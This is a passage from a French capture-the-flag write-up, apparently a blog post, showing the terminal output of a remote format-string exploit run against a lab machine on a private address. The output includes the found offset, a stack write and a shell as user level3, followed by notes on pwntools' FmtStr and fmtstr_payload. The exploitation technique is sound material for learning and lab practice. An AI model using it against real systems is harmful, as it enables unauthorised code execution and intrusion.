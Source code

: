 Et ça marche :

```shellsession
$ python remote_lvl3.py 
[+] Opening connection to 192.168.56.83 on port 44101: Done
[*] Closed connection to 192.168.56.83 port 44101
[+] Opening connection to 192.168.56.83 on port 44101: Done
[*] Found format string offset: 11
[*] offset is at dword 11
[*] Closed connection to 192.168.56.83 port 44101
[+] Opening connection to 192.168.56.83 on port 44101: Done
Saved EBP = 0xbfec9078
Ecriture de 31337 à l'adresse bfec8e20
[*] Switching to interactive mode
Your guess 40aa--- snip ---\x00\xb0\x90쿱\x90쿳\x90\xec\xbf is to high
guess: $ id
uid=1003(level3) gid=1001(level1) groups=1003(level3),1001(level1)
```

Comme sur le [CTF Pegasus](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Pegasus%20de%20VulnHub.md) j'ai utilisé `pwntools` qui a correctement trouvé l'offset auquel les données étaient reflétées.

En théorie via `FmtStr` on peut alors simplement spécifier avec la méthode `write` l'adresse où l'on veut écrire et la valeur puis on valide avec `execute_writes`.

Ca a marché effectivement au début mais après j'ai eu encore recours à la méthode plus brute `fmtstr_payload` qui laisse moins de surprises...

*Publié le 26 décembre 2022*


